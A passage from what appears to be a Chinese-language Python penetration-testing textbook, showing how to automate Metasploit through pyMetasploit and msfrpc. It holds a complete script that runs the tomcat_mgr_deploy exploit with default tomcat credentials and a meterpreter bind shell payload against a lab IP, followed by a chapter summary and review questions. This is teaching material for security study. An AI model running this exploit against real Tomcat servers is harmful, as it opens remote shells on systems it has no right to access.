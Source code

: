 我们可以使用`use`方法激活其中一个 exploit：

`scan = client.modules.use('exploits', 'multi/http/tomcat_mgr_deploy')`

与`python-msfprc`一样，使用此模块，我们还可以连接到控制台并像在 msfconsole 中那样运行命令。我们可以通过两种方式实现这一点。第一种是在激活 exploit 后使用 scan 对象。第二种是使用 console 对象以与 msfconsole 交互时相同的方式执行命令。

您可以在`pyMetasploit`文件夹中的`exploit_tomcat_maanger.py`文件中找到以下代码：

```py
from Metasploit.msfrpc import MsfRpcClient
from Metasploit.msfconsole import MsfRpcConsole

client = MsfRpcClient('password', user='msf')

exploits = client.modules.exploits
for exploit in exploits:
    print("\t%s" % exploit)

scan = client.modules.use('exploits', 'multi/http/tomcat_mgr_deploy')
scan.description
scan.required
scan['RHOST'] = '192.168.100.2'
scan['RPORT'] = '8180'
scan['PATH'] = '/manager'
scan['HttpUsername'] = 'tomcat'
scan['HttpPassword'] = 'tomcat'
scan['payload'] = 'java/meterpreter/bind_tcp'
print(scan.execute())

console = MsfRpcConsole(client)
console.execute('use exploit/multi/http/tomcat_mgr_deploy')
console.execute('set RHOST 192.168.100.2')
console.execute('set RPORT 8180')
console.execute('set PATH /manager')
console.execute('set HttpUsername tomcat')
console.execute('set HttpPassword tomcat')
console.execute('set payload java/meterpreter/bind_tcp')
console.execute('run')
```

# 总结

本章的一个目标是了解 Metasploit 框架作为利用漏洞的工具，以及如何在 Python 中与 Metasploit 控制台进行程序化交互。使用诸如 Python-msfrpc 和 pyMetasploit 之类的模块，可以自动执行在 Metasploit 框架中找到的模块和 exploits。

在下一章中，我们将探讨在 Metasploitable 虚拟机中发现的漏洞，以及如何连接到漏洞扫描器（如`nessus`和`nexpose`）以从 Python 模块中提取这些漏洞。

# 问题

1.  在 Metasploit 中与模块进行交互和执行 exploits 的接口是什么？

1.  使用 Metasploit 框架利用系统的主要步骤是什么？
